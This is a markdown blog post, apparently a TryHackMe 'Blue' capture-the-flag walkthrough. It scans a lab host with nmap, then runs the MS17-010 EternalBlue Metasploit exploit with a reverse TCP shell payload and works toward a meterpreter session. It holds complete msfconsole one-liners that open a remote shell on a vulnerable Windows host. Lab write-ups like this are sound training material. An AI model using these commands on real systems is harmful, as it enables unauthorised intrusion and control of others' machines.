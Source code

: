 ```yaml
---
title: 'TryHackMe - Blue'
excerpt: 'Scanning a host for vulnerabilities with nmap. Running an exploit against the target using Metasploit to gain a reverse TCP shell and upgrading the shell. Meterpreter usage and session navigation.'
coverImage: '/assets/blog/thm-blue/thm-blue-cover.png'
date: '2023-06-29T05:51:07.322Z'
author:
  name: Zaphod Beeblebrox
  picture: '/assets/blog/authors/skull.jpeg'
ogImage:
  url: '/assets/blog/thm-blue/thm-blue-cover.png'
---
```


# THM Eternal Blue  

![](../public/assets/blog/hello-world/scraps.jpg)

## Recon  

 ### // Set a terminal environmental variable for target IP address  

    export IP=<target-ip-address> 

 ### // Run nmap vulnerability scan 

    nmap -sV -vv --script=vuln $IP  

 ### // Example  

![](thm-blue/thm-blue-nmap-command.png)  

 ### // Results  

![](thm-blue/thm-blue-nmap-results.png)

> Host is vulnerable to Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)  

https://www.exploit-db.com/exploits/41891  

## Exploit  

 ### // Run msfconsole and perform reverse tcp shell exploit   

     msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set payload windows/x64/shell/reverse_tcp;setg RHOSTS $IP;setg LHOST tun0;run"  

> We set the RHOSTS, LHOST, and payload option for the script (RHOSTS and LHOST are set globally)  

 ### // Metasploit go brrrr...  

 ![](thm-blue/thm-blue-msfc-reverse-tcp-shell-command.png)  

 > Options have been set and exploit is running  

  // Results  

  ![](thm-blue/thm-blue-eternal-blue-exploit-success.png)  

  > Exploit initially failed, now we have a basic shell  

 ### // Backgrounding the shell example    

     background  

> Ctrl-z does the same thing  

 ![](thm-blue/thm-blue-background-example.png)

 ## Post-Exploit > Upgrade the reverse TCP shell to a meterpreter shell  

 ### // Search for the command   
     search upgrade shell   

 ![](thm-blue/thm-blue-search-upgrade-shell-1.png)  

 ### // Select the script for use  

     use shell_to_meterpreter  

> Alternative: "use 4" (4th result in searches)

 ![](thm-blue/thm-blue-run-upgrade-shell.png)  

 ### // Set options for shell_to_meterpreter - The script needs the session ID of our reverse TCP shell  

 ![](thm-blue/thm-upgrade-shell-options.png)  

 > Example of setting options and using "sessions" to display sessions  

 ### // Run the script  



 > The script ran, but we don't have an upgraded shell...

 ### // Hmmm. Thats not working...  
 For some reason, the script isn't upgrading our shell. No worries, a meterpreter shell is the default when a payload isn't set for the eternal blue exploit.

 ### // Let's try again  

     msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set RHOSTS $IP;set LHOST tun0;run"  

 > This time we omit the "set payload windows/x64/shell/reverse_tcp" option. A meterpreter shell will be spun up by default.  






